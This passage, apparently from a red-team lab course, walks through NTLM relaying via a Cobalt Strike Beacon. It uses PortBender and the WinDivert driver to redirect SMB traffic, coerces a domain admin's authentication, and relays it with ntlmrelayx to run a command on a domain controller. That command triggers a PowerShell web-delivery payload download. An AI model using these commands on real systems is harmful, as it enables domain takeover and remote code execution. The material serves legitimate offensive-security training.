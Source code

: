 [PortBender](https://github.com/praetorian-inc/PortBender) is a reflective DLL and aggressor script specifically designed to help facilitate relaying through Cobalt Strike.  It requires that the driver be located in the current working directory of the Beacon.  It makes sense to use `C:\Windows\System32\drivers` since this is where most Windows drivers go.

```
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```

Then go to _Cobalt Strike > Script Manager_ and load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console.

```
beacon> help PortBender
Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password
Examples:
	PortBender redirect 445 8445
	PortBender backdoor 443 3389 praetorian.antihacker
```

Execute PortBender to redirect traffic from 445 to port 8445.

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
```

To trigger the attack, we need to coerce a user or a machine to make an authentication attempt to Workstation 2.  Let's do it manually for now, by using the console of Workstation 1 as the user nlamb.  This user is a domain admin, so we can relay the authentication request to the domain controller.

```
C:\Users\nlamb>hostname
wkstn-1

C:\Users\nlamb>dir \\10.10.123.102\relayme
```

You should see PortBender log the connection and ntlmrelayx will spring into action.

```
[*] SMBD-Thread-3: Received connection from 127.0.0.1, attacking target smb://10.10.122.10
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:445-<><>-OK
[*] Authenticating against smb://10.10.122.10 as DEV/NLAMB SUCCEED
[*] Executed specified command on host: 10.10.122.10
```

ntlmrelayx reports that the command was executed - we can check the web log to confirm we received a hit.

```
09/05 13:34:16 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Scripted Web Delivery (powershell)
	null
```
